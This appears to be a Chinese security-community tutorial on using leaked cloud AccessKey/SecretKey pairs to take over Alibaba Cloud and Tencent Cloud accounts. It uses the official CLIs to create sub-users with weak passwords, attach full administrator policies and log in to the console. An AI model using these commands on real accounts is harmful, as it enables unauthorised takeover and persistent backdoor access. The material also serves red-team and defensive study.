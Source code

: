 

# 如何利用官方工具+ak，sk 接管云平台 - 先知社区

如何利用官方工具+ak，sk 接管云平台

- - -

## 如何通过 ak，sk 登录云平台

在云计算中，AK（Access Key）和 SK（Secret Key）通常用于进行 API 调用，以便访问和管理云服务资源。这些密钥对于安全性至关重要，因为它们允许对云资源执行各种操作。如果泄露或不当使用，可能会导致严重的安全风险和数据泄露。  
而在实战中，大部分文章基本是什么工具一把嗦嗦哈，看 oss，rds，ecs，其实如果 ak，sk 权限过大，是可以创建子用户来登录云管的，说不定登进去就能接管域名，im 服务等扩大攻防成果。

下面介绍腾讯云，阿里云的接管方式，其他云大差不差，看官方文档就能搞

## 阿里云

阿里云有一个 ram 账号，可以看看他的官方介绍

[![](assets/1706957968-e52c57bdad2aa091b815ecc8edbdd563.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240202172319-b3f58572-c1ac-1.png)

RAM 用户由阿里云账号（主账号）或具有管理员权限的其他 RAM 用户，同时 ram 账号可以用 ak，sk 进行调用 api 创建  
根据阿里云官方的命令行工具[https://github.com/aliyun/aliyun-cli/blob/master/README-CN.md](https://github.com/aliyun/aliyun-cli/blob/master/README-CN.md)

配置 ak sk

```bash
./aliyun configure --profile akprofile
```

[![](assets/1706957968-b6be0d04598ad9440a817a2429976a09.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240202172334-bd2fc7f6-c1ac-1.png)

创建 ram 账号

```bash
查看别名
./aliyun ram GetAccountAlias
常见账号
./aliyun aliyun ram CreateUser --UserName SxfnbQaxsb2333
设置密码
./aliyun ram CreateLoginProfile --UserName SxfnbQaxsb2333 --Password 123456
设置权限
./aliyun ram AttachPolicyToUser --PolicyType System --PolicyName AdministratorAccess --UserName SxfnbQax**2333
```

创建好账号后，查看该云的别名

```bash
./aliyun ram GetAccountAlias 获取 id 放在域名后面
```

[![](assets/1706957968-8ba72a90cf0edb64e3e2faaccfd1c1c0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240202172350-c65ceeb2-c1ac-1.png)

登录账号为  
创建的用户@+别名+.onaliyun.com  
然后就可以用这个账号正常登录阿里云，和你自己账号登录阿里云一样

[![](assets/1706957968-fa1b39ea7156ef2f854c8e05864a62d5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240202172359-cbe3a6e6-c1ac-1.png)

## 腾讯云

腾讯云也一样，只不过叫法不同，腾讯云叫子用户，与阿里云不同的是，腾讯云登录子用户需要主账号 id 才可以

[![](assets/1706957968-2bc4d2a84ef326997c23a13de61fda7d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240202172421-d8e22a5c-c1ac-1.png)

我们下载其官方命令行工具[https://github.com/TencentCloud/tencentcloud-cli](https://github.com/TencentCloud/tencentcloud-cli)

查看命令行命令

```bash
获取主用户 id
tccli cam GetUserAppId --cli-unfold-argument
```

[![](assets/1706957968-7c26c77f9f3906b6a26629b54ce86bb9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240202172431-deebf4a0-c1ac-1.png)

[![](assets/1706957968-7c982aaf02ed7f65c9f11d4fb21d701a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240202172444-e6b57e4a-c1ac-1.png)

```bash
创建子用户
tccli cam AddUser –cli-unfold-argument --Name Sxfnb2333 --Remark sxf --ConsoleLogin 1 --Password '123456' --NeedResetPassword 0
查询策略
tccli cam ListPolicies --cli-unfold-argument
给最高权限
tccli cam AttachUserPolicy --cli-unfold-argument --PolicyId 1 --AttachUin 100035117703
列出子用户
tccli cam ListUsers --cli-unfold-argument
```

创建好后然后去登录

[![](assets/1706957968-357f21c9fb5b84e9cafbbc3f78ff45fd.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240202172451-eab23574-c1ac-1.png)

[![](assets/1706957968-55b8c239a0c417db9fdb21b04bb2a07e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240202172458-eef20c5e-c1ac-1.png)
